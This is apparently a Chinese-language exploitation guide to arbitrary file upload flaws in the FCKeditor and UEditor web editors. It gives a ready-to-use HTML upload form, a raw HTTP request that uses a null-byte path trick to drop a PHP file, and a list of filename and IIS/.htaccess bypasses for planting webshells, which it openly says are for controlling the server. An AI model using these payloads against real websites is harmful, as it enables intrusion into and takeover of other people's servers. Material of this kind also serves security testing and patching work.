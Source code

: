 FCKeditor 2.4.2 For php以下版本在处理PHP上传的地方并未对Media 类型进行上传文件类型的控制，导致用户上传任意文件！将以下保存为html文件，修改action地址为实际地址  
```
<form id="frmUpload" enctype="multipart/form-data" action="http://www.xxxx.com/FCKeditor/editor/filemanager/upload/php/upload.php?Type=Media" method="post">Upload a new file:<br> <input type="file" name="NewFile" size="50"><br> <input id="btnUpload" type="submit" value="Upload"> </form>
```  
### FCKeditor 2.6.4 php版本任意文件上传  
  
Fckeditor 低于 2.6.4 php 版本任意文件上传漏洞，当您的PHP环境配置为 GPC = Off 时可绕过currentfolder参数过滤上传脚本木马控制网站服务器  
  
**利用方式**  
```
POST /public/FCKEditor/editor/filemanager/connectors/php/connector.php?Command=FileUpload&Type=File&CurrentFolder=fu.php%00.gif HTTP/1.1 
Content-Type: multipart/form-data; boundary=---------------------------29565348729577 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8 
Accept-Encoding: gzip,deflate 
Content-Length: 219 
Host: IP 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36 
Connection: Keep-alive 
-----------------------------29565348729577 
Content-Disposition: form-data; name="NewFile"; filename="fu.gif" 
Content-Type: image/jpeg GIF89a 
-----------------------------29565348729577--  
```  
  
****### 上传的一些绕过措施  
  
**1）windows 2003 + IIS6 文件解析路径漏洞**  
  
通过fckeditor在文件上传页面中，创建 xxx.asp 文件夹，在 xxx.asp 文件夹下上传一个名为 xxx.jpg 的图片后缀名webshell文件，即可获取到其shell  
  
**2）重复上传同名文件，绕过："." 变为 “-” 的限制**  
  
某些版本的FCK上传shell.asp;.jpg 会变为 shell_asp;.jpg，继续上传 shell.asp;.jpg 就会变成：shell.asp;(1).jpg  
  
**3）提交shell.php + 空格绕过文件名限制 ---- 只对windows系统有效**  
  
**4）上传一个.htaccess**  
## UEditor  
  
UEditor是由百度web前端研发部开发所见即所得富文本web编辑器，具有轻量，可定制，注重用户体验等特点，开源基于BSD协议，允许自由使用和修改代码...  
### UEditor常用的控制器  
  
![1734426335_67613edfbe60e3e33fd67.png!small?1734426336185](https://mmbiz.qpic.cn/sz_mmbiz_jpg/Rzo6rPw2nBxgkSlMo2mNeMX7DIt5NRh16wvjR1wJlJjkY3nS75weZJszvibAqm6bHroUVBKoaNrrqzU2U1WccxQ/640?wx_fmt=jpeg&from=appmsg "")  
### .Net版本文件上传  
  
该任意文件上传漏洞存在于1.4.3.3、1.5.0和1.3.6版本中，并且只有.NET版本受该漏洞影响。黑客可以利用该漏洞上传木马文件，执行命令控制服务器。  
  
该漏洞是由于上传文件时，使用的CrawlerHandler类未对文件类型进行检验，导致了任意文件上传。1.4.3.3和1.5.0版本利用方式稍有不同，1.4.3.3需要一个能正确解析的域名。而1.5.0用IP和普通域名都可以。相对来说1.5.0版本更加容易触发此漏洞；而在1.4.3.3版本中攻击者需要提供一个正常的域名地址就可以绕过判断；  
  